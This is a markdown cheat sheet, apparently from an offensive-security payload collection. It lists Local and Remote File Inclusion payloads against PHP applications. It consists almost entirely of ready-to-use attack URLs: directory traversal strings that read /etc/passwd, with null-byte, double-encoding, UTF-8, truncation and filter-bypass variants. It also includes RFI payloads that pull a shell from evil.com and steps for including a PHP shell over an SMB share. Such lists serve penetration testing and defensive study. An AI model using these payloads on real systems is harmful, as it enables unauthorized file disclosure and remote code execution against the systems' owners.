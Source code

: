 ## Local File Inclusion
### Null byte
```txt
http://example.com/index.php?page=../../../etc/passwd%00
```
### Double encoding
```txt
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
```
```txt
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
### UTF-8 encoding
```txt
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```
```txt
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```
### Path and dot truncation
On most PHP installations a filename longer than `4096` bytes will be cut off so any excess chars will be thrown away.
```txt
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
```
```txt
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
```
```txt
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
```
```txt
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```
### Filter bypass tricks
```txt
http://example.com/index.php?page=....//....//etc/passwd
```
```txt
http://example.com/index.php?page=..///////..////..//////etc/passwd
```
```txt
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
### Using Base64
[One LFI bypass to rule them all (using base64)](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/)
## Remote File Inclusion
### Null byte
```txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
```
### Double encoding
```txt
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```
### Bypass `allow_url_include`
When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows target using the `smb` protocol.
1. Create a share open to everyone
2. Write a PHP code inside a file: `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`